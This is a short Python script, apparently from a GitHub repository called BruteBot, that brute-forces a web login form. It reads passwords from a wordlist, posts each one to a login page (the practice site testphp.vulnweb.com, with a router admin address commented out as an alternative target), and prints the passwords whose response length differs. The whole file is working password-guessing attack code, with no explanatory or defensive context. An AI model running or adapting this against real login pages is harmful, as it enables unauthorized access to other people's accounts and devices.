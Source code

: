 https://github.com/navin-maverick/BruteBot

#! /usr/bin/python

import requests

url = "http://testphp.vulnweb.com/userinfo.php"

# url = "https://192.168.1.182/cgi-bin/luci"

loginpage = requests.get(url)
org = len(loginpage.text)

with open('pass.txt', 'r') as fh:
    for word in fh.readlines():
        password = word.replace("\n", "")
        data = {'uname': 'test', 'pass': password}
        # data = {'luci_username': 'test', 'luci_password': password}
        response = requests.post(url, data = data)
        if org != len(response.text):
            print(password, len(response.text))
